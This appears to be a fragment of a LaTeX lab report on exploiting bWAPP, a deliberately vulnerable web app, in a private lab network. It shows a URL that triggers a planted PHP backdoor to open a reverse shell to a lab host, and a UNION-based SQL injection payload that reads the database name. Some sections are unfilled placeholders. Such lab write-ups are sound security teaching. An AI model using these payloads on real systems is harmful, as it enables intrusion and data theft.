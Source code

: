\documentclass{article}
\begin{document}
We piped the command \ref{bash:backdoor} into the file inserted\_backdoor.php and now when we acces the url "http://10.0.2.4/bWAPP/inserted\_backdoor.php?server=10.0.2.15 \&port=4747",
the server will give us a reverse shell. \ref{fig:backdoor-installed}

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/backdoor-installed.png}
    \caption{\label{fig:backdoor-installed}How to connect to the server after the backdoor has installed}
\end{figure}

\subsection{Manual Exploit}
\label{}

\textcolor{blue}{-- commands provided to extract data}

\textcolor{blue}{-- screenshots}


\subsection{Automated Exploit}
\label{}
\textcolor{blue}{- a piece of code (Python, Java, etc.) that automates the vulnerability exploited such that data is extracted/changed/updated/compromised as using/exploiting the vulnerability.}

\subsection{SQL Injection}
In the page under the test, there was no sanitization of the input parameters, so SQL Injection was allowed. To see this in work, we can input the following text to gather the current database name: \textit{1' union select 1,database(),2,3,4,5,6,7,8 -- -}. The previous injection will stop the current search query and union the result with the a new row which contains the current database name and stop by next SQL statement by adding the comment characters at the end of the statement. The result can be observed in the Figure \ref{fig:defensive-sql-injection}.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.5\linewidth]{Figures/defensive/sql-injection.PNG}
    \caption{SQL Injection}
    \label{fig:defensive-sql-injection}
\end{figure}
\end{document}
